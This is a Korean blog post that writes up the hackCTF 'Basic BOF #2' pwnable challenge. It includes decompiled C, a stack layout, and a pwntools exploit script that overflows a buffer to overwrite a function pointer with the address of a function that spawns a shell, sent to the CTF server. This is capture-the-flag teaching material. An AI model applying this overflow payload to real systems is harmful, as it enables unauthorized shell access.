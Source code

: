 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #2"
date:   2020-02-09
categories: hackCTF
tags: [hackCTF] [pwnable]
permalink: '/hackCTF'
---
```


hackCTF pwnable 2번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup; // sup 함수의 주소를 v5에 저장
  fgets(&s, 133, stdin); // stdin으로부터 133바이트를 입력 받아 s에 저장
  v5(); // v5가 가리키는 함수 실행
  return 0;
}
```
## ida - sup
```c
int sup()
{
  return puts(&s); // s에 저장된 문자열 출력
}
```

## ida - shell
```c
int shell()
{
  return system("/bin/dash"); // 쉘을 띄울 수 있다!
}
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 | esp+0x8C |
| ... |          |
|  s  |  esp+0xC |
| ... |          |
| esp |   esp+0  |

***

<br>
목표 : shell 함수 실행 <br>
취약점 : fgets(&s, 133, stdin)<br><br>
∴ v5를 shell의 주소로 덮어 shell()을 실행시키자.<br><br><br>

+) 쉘의 주소는 다음과 같다.  
![0201](https://drive.google.com/uc?id=18Rgv1QIq_0rxABl08a1KZjNBc3GLtHi4)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3001)

payload = "A"*(0x8C-0xC) + p32(0x0804849B)

p.sendline(payload)

p.interactive()
```
## 결과  
![0202](https://drive.google.com/uc?id=1GApVrN8IkoCUKXN559Ldluu8rjXOXgtH)
